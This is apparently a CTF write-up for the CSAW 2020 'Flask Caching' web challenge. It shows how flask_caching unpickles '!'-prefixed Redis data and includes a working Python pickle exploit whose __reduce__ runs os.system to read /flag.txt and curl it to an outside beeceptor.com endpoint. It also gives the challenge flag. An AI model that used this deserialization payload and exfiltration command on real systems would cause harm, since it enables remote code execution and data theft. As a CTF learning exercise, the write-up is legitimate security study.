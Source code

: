 ```yaml
---
layout: post
author: Veryyes
title: "CSAW 2020 CTF: Flask Caching"
date: 2020-09-12 12:35:32 -0500
categories: CTF-writeup
ctf-category: Web
---
```


# flask_caching

## Overview
I'm usually terrible at web challenges, but this one was pretty fun. So the challenge is a flask webserver with flask_caching (wow didn't see that one) with a redis server backing the caching system
Here's the [source code](/assets/csaw-2020/flask_caching/clean_app.py)

Essentially you can give that website a string as the key and a file as its corresponding value, and it will cache the values. The same goes for the cached functions. 

## Investigating the Behavior
After setting up the dependencies and the redis server I started wiresharking and watch the traffic going on
![POST Request](/assets/csaw-2020/flask_caching/regular_request.png)

Heres a normal request to the webserver with the title "dongs" and a file named "test.txt" with it's contents being "test things"

After recieving the last request,the webserver tells the redis server to cache the values it received.
![Webserver to Redis](/assets/csaw-2020/flask_caching/regular_cache.png)

Interesting. Lets see what it looks like when the webserver caches a function.

![Function Cache](/assets/csaw-2020/flask_caching/func_cache.png)

I asked the webserver for `localhost:5000/test5`; packets to redis looks pretty similar. That `$-1` response means that value doesnt exist in the cache, so the webserver responds with a `SETEX` command to `flask_cache_view//test5`. In fact that last section of the respond is just the data that tells redis to cache some data. but the data its caching in this response is binary data and looks kinda like a pickled python object

## Very research, much good
Ok so the `flask_caching` module is serializing either the function or the function's results some how, so lets just read the code and find out what it's doing.

### flask_caching/backends/rediscache.py
```
    def load_object(self, value):
        """The reversal of :meth:`dump_object`.  This might be called with
        None.
        """
        if value is None:
            return None
        if value.startswith(b"!"):
            try:
                return pickle.loads(value[1:])
            except pickle.PickleError:
                return None
        try:
            return int(value)
        except ValueError:
            # before 0.8 we did not have serialization.  Still support that.
            return value
```

So looks like it just pickles the data and appends a '!' character at the beginning. This matches the data we saw in wireshark. If we drop the '!' and unpickle the binary data from the previous packet capture, we just get the string "test" which is the return value of the handler function.

Cool, so the webserver is unpickling data we send it. Thats definitely a thing thats vulnerable, so after a quick google search and some testing around on the CTF server I came up with a solution:

```
#!/usr/bin/env python3
import time
import requests
import pickle
import os

payload="test_file"

class jinja2:
    def __reduce__(self):
        return (os.system,('cat /flag.txt > /tmp/out; curl https://penis.free.beeceptor.com/ --data @/tmp/out',))

with open(payload, 'wb') as f:
    f.write(b'!')
    f.write(pickle.dumps(jinja2()))


# host = 'localhost'
host='web.chal.csaw.io'

url = "http://{}:5000/".format(host)

# Send a malicious payload to cache a object that will run a command to exfil the flag to a chosen endpoint
r = requests.post(url, 
    files={'content': (payload, open(payload,'rb'), 'application/octet-stream')}, 
    data={"title": "flask_cache_view//test5"}, 
)

print(r.text)


url += 'test5'

# Send a webrequest to the endpoint to call the unpickling code executing the payload
r = requests.get(url)
print(r.text)
```

So the way this works is that when you run pickle.load() on pickled data it runs the `__reduce__` function of that object by default. In this case I overrode `__reduce__` run bash commands.



- The class is named `jinja2` because the object being unpickled must existing in the namespace of the programming unpickling it
- `https://penis.free.beeceptor.com` is a free service that lets you send web requests too and displays them for easy display. This is what I used to exfiltrate the flag

The request body will have the flag:

```
flag{f1@sK_10rD}
```